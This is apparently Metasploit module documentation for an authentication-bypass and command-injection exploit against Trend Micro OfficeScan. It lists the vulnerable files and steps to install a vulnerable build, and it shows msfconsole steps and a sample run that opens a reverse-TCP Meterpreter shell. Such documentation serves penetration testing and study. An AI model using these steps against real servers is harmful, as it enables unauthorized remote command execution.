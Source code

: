 ## Vulnerable Application

This module exploits the authentication bypass and command injection vulnerability together. Unauthenticated users can execute a terminal command under the context of the web server user.

The Trend Micro OfficeScan product has a widget feature which is implemented with PHP. Talker.php takes ack and hash parameters but doesn't validate these values, which leads to an authentication bypass for the widget. Proxy.php files under the mod TMCSS folder take multiple parameters but the process does not properly validate a user-supplied string before using it to execute a system call. Due to combination of these vulnerabilities, unauthenticated users can execute a terminal command under the context of the web server user.

**Vulnerable Application Installation Steps**

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "OfficeScan" and click.
3. At the time of writing this documentation, you must see "osce-xg-win-en-gm-b1315.exe" next to Download button.
4. Click to the download button and complete installation of ISO.
5. Install the downloaded file on Windows operating system. (Tested with Windows 7)

If you don't see an affected version of OfficeScan, you can try to download it directly from following URL.

[http://download.trendmicro.com/products/officescan/XG/osce_xg_win_en_gm_b1315.exe](http://download.trendmicro.com/products/officescan/XG/osce_xg_win_en_gm_b1315.exe)

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/windows/http/trendmicro_officescan_widget_exec`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target is vulnerable.`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Authenticated successfully bypassed` value.
- [ ] **Verify** that you are getting `meterpreter` session.

## Scenarios

### Trend Micro OfficeScan 11 on Win7

```
msf exploit(trendmicro_officescan_widget_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Auto detection enabled. Trying to detect target system version.
[*] Target system selected : OfficeScan 11
[*] Exploiting authentication bypass
[+] Authenticated successfully bypassed.
[*] Generating payload
[*] Triggering command injection vulnerability
[*] Sending stage (179267 bytes) to 12.0.0.176
[*] Meterpreter session 9 opened (12.0.0.1:4444 -> 12.0.0.176:49842) at 2017-10-09 21:57:29 +0300

meterpreter > sysinfo
Computer        : CME
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : tr_TR
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 

```

